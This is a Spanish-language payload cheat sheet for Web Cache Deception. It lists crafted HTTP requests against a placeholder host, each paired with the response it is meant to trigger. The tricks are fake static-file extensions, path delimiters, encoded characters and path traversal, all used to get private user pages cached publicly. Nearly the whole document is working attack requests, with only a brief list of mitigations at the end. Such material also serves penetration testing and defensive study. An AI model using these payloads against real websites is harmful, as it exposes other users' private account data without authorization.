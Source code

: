 # 🫀 Real world Payloads

## Web Cache Deception (WCD)

### Manipulación de Extensiones para Engaño en Caché

#### Payloads Básicos

```http
GET /dashboard/profile.css HTTP/1.1
Host: target.com
```

```http
GET /orders/details.jpg HTTP/1.1
Host: target.com
```

```http
GET /profile.js HTTP/1.1
Host: target.com
```

#### Respuesta esperada

```http
HTTP/1.1 200 OK
Cache-Control: public, max-age=3600
Content-Type: text/html

<h1>Información privada del usuario</h1>
```

***

### Identificación de Respuestas en Caché

#### Revisar Encabezados

```http
GET /dashboard HTTP/1.1
Host: target.com
```

**Respuesta esperada**

```http
HTTP/1.1 200 OK
X-Cache: miss
Cache-Control: no-cache

<h1>Panel del usuario</h1>
```

Realiza la misma solicitud nuevamente:

```http
GET /dashboard HTTP/1.1
Host: target.com
```

**Respuesta esperada**

```http
HTTP/1.1 200 OK
X-Cache: hit
Cache-Control: public, max-age=3600

<h1>Panel del usuario</h1>
```

***

### Exploitar Discrepancias de Mapeo

#### Prueba de Mapeo REST vs Estático

```http
GET /user/123/profile/wcd.css HTTP/1.1
Host: target.com
```

**Respuesta esperada**

*   **Servidor de Origen (REST):**

    ```http
    HTTP/1.1 200 OK
    Content-Type: text/html

    Información del perfil del usuario 123
    ```
*   **Caché (Estático):**

    ```http
    HTTP/1.1 200 OK
    Content-Type: text/css

    Información del perfil del usuario 123 (almacenado como .css)
    ```

***

### Uso de Cache Buster

#### Ejemplo con Parámetro Dinámico

```http
GET /dashboard?_cachebuster=12345 HTTP/1.1
Host: target.com
```

**Respuesta esperada**

```http
HTTP/1.1 200 OK
Cache-Control: public, max-age=3600

<h1>Panel del usuario</h1>
```

***

### Prueba de Delimitadores

#### Uso de Delimitadores para Manipulación

```http
GET /settings/users/list;aaa.js HTTP/1.1
Host: target.com
```

**Respuesta esperada**

*   **Caché:**

    ```http
    HTTP/1.1 200 OK
    Content-Type: application/javascript

    Información sensible del usuario
    ```
*   **Servidor de Origen:**

    ```http
    HTTP/1.1 200 OK
    Content-Type: text/html

    Información sensible del usuario
    ```

***

### Explotación de Decodificación

#### Prueba con Caracteres Codificados

```http
GET /profile%23wcd.css HTTP/1.1
Host: target.com
```

**Respuesta esperada**

*   **Servidor de Origen:**

    ```http
    HTTP/1.1 200 OK
    Content-Type: text/html

    Información del perfil del usuario
    ```
*   **Caché:**

    ```http
    HTTP/1.1 200 OK
    Content-Type: text/css

    Información del perfil del usuario
    ```

***

### Explotación de Reglas de Directorios Estáticos

#### Solicitud Maliciosa

```http
GET /static/../profile.js HTTP/1.1
Host: target.com
```

**Respuesta esperada**

```http
HTTP/1.1 200 OK
Cache-Control: public, max-age=3600
Content-Type: application/javascript

Información sensible del perfil del usuario
```

***

### Explotación de Normalización

#### Payload de Travesía de Ruta

```http
GET /static/..%2fprofile HTTP/1.1
Host: target.com
```

**Respuesta esperada**

*   **Caché:**

    ```http
    HTTP/1.1 200 OK
    Content-Type: text/html

    Información sensible del perfil del usuario
    ```

***

### Mitigaciones

* Implementar encabezados como `Cache-Control: private` para respuestas sensibles.
* Validar extensiones de archivos y rutas.
* Evitar el uso de delimitadores inconsistentes entre el servidor de origen y el caché.
* Asegurar la coherencia en la normalización de rutas y el manejo de caracteres codificados.
